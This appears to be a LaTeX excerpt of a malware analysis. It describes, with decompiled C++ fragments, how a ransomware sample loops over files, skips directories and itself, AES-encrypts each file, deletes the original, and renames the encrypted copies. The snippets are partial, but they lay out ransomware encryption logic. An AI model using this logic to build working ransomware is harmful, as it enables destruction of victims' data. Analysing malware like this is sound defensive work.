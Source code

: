 \documentclass[11pt]{article}
\begin{document}
The loop executes the following code:
\begin{itemize}
  \item Exclude directories by determining the file attributes (0x10 for directory).
  \begin{lstlisting}[language=c++]
    if ((local_10e8.dwFileAttributes & 0x10) == 0){/*...*/}
\end{lstlisting}

  \item Compare the first three characters (6 bytes) of the filename with the string '\textasciitilde en', and then exclude the file if they are same.
  \begin{lstlisting}[language=c++]
    wchar_t local_e98[8];
    copy_14000c700((undefined8 *)local_e98, (undefined8 *)local_10e8.cFileName, 6);
    iVar2 = wcscmp(local_e98, L"~en");
    if (iVar2 != 0){/*...*/}
\end{lstlisting}

  \item Retrieve the path of the executable file of the current process by calling \textbf{GetModuleFileNameW()}, and then exclude this file (i.e. ransomware itself).
  \begin{lstlisting}[language=c++]
    WCHAR local_858[264];
    GetModuleFileNameW((HMODULE)0x0, local_858, 0x104);
    _Str2 = PathFindFileNameW(local_858);
    iVar2 = wcscmp(local_10e8.cFileName, _Str2);
    if (iVar2 != 0){/*...*/}
\end{lstlisting}

  \item Encrypt the original file by calling \textbf{AES\_Encrypt\_140007080()}. \\Prefix the filename of encrypted file with '\textasciitilde en' (e.g. 'sample.md' to '\textasciitilde ensample.md'). \\Delete the original file by calling \textbf{DeleteFileW()}.
  \begin{lstlisting}[language=c++]
    CopyWPath_140007bc0(local_648, 0x104, dir);
    output_addr = local_648;
    ConcatWPath_140007b20(output_addr,0x104,L"~en");
    ConcatWPath_140007b20(output_addr, 0x104, local_10e8.cFileName);
    AES_Encrypt_140007080(input_addr, output_addr);
    DeleteFileW(input_addr);
\end{lstlisting}
\end{itemize}

After the above loop is completed, the second loop renames all the encrypted file to the original filenames by calling the \textbf{MoveFileW()} function (e.g. '\textasciitilde ensample.md' to 'sample.md').
  \begin{lstlisting}[language=c++]
    MoveFileW(local_10f0, local_10f8);
\end{lstlisting}
\end{document}
